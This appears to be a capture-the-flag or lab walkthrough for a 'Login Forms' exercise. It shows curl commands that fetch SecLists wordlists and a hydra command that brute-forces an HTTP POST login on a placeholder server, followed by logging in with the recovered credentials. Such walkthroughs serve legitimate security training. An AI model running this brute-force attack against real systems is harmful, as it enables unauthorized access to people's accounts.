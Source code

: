 # Login Forms

After successfully brute-forcing, and then logging into the target, what is the full flag you find?

Getting the flag:

**Step 1** - Download the username and password wordlist:

* {% code overflow="wrap" %}
  ```bash
  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Usernames/top-usernames-shortlist.txt
  ```
  {% endcode %}
* {% code overflow="wrap" %}
  ```bash
  curl -s -O https://raw.githubusercontent.com/danielmiessler/SecLists/refs/heads/master/Passwords/Common-Credentials/2023-200_most_used_passwords.txt
  ```
  {% endcode %}

**Step 2** - Execute the command:

* {% code overflow="wrap" %}
  ```bash
  hydra -L top-usernames-shortlist.txt -P 2023-200_most_used_passwords.txt -f SERVER_IP -s SERVER_PORT http-post-form "/:username=^USER^&password=^PASS^:F=Invalid credentials"
  ```
  {% endcode %}

Step 3:

*   Login with the founded credentials.\


    <figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

    <figure><img src="../../../.gitbook/assets/image (174).png" alt=""><figcaption></figcaption></figure>

